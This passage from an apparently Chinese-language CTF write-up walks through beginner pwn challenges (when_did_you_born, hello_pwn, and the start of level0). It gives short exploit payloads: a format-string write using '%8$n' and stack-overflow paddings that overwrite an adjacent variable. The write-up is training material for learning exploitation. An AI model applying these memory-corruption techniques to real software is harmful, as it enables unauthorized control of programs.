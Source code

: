```python
name = b'aa' + p32(pwnme_addr)
payload = 'a'*8 + '%8$n'
```

![](https://img-blog.csdnimg.cn/20200305010040370.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dsel9sY180,size_16,color_FFFFFF,t_70)


#  when_did_you_born

![](https://img-blog.csdnimg.cn/20200305010107727.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dsel9sY180,size_16,color_FFFFFF,t_70)

我们发现最开始v5不能为1926，但是后面判定其为1926。

> 注意到v5的值前后矛盾。
>
> 如果是re题目，这样的判定后有应该是一个输出flag的函数，然后动态控制直接转向flag输出函数。
>
> 但pwn题目我们面对这样的情况会使用攻击手段修改掉这个参数，其中这个题目明显是栈溢出。

*   栈溢出覆盖特定位置字符

先计算v4v5之间的距离，由`ebp-0x18`到`ebp-0x20`为8位，我们得到payload并写出exp：

```python 
payload = "a" * 8 + p64(1926)
```

![](https://img-blog.csdnimg.cn/20200305010119310.png)


# hello_pwn

ida载入发现这个题目和` when_did_you_born `两个题目是一样的。

![](https://img-blog.csdnimg.cn/20200305010133543.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dsel9sY180,size_16,color_FFFFFF,t_70)
查看两个数据，发现在内存中相邻，所以本题和上上题是一样的。

![](https://img-blog.csdnimg.cn/20200305010146972.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dsel9sY180,size_16,color_FFFFFF,t_70)
计算距离为：4位。可以写出exp：

```python
payload = 'a'*4 + p64(0x6E756161)
```



运行得到flag：

![](https://img-blog.csdnimg.cn/20200305010159232.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dsel9sY180,size_16,color_FFFFFF,t_70)

# level0

 ida载入发现main函数极为简单。
